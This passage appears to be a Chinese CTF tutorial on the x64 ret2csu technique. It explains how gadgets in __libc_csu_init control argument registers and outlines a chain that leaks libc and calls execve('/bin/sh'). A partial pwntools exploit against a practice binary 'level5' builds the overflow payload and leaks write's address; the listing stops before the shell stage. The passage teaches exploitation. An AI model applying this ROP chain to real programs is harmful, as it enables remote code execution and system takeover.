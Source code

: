在64位程序中，函数的前6各参数是通过寄存器传递的，可以看到rdi作为第一个参数，rsi作为第二个参数，rdx作为第三个参数，rcx作为第四个参数，r8作为第五个参数，r9作为第六个参数。也就是说在函数调用参数的时候会依次在六个寄存器中寻找，如果参数多余6个，那么就需要在栈中寻找，但是大多数时候，我们很难找到每一个寄存器对应的 gadgets。 这时候，我们可以利用 x64 下的 __libc_csu_init 中的 gadgets。这个函数是用来对 libc 进行初始化操作的，而一般的程序都会调用  libc 函数，所以这个函数一定会存在。我们先来看一下这个函数 (当然，不同版本的这个函数有一定的区别)




基本利用思路如下

- 利用栈溢出执行 libc_csu_gadgets 获取 write 函数地址，并使得程序重新执行 main 函数
- 根据 libcsearcher 获取对应 libc 版本以及 execve 函数地址
- 再次利用栈溢出执行 libc_csu_gadgets 向 bss 段写入 execve 地址以及 '/bin/sh’ 地址，并使得程序重新执行 main 函数。
- 再次利用栈溢出执行 libc_csu_gadgets 执行 execve('/bin/sh') 获取 shell。

例子：

https://github.com/zhengmin1989/ROP_STEP_BY_STEP/

EXP：

```
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
## RDI, RSI, RDX, RCX, R8, R9, more on the stack
## write(1,write_got,8)
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)
```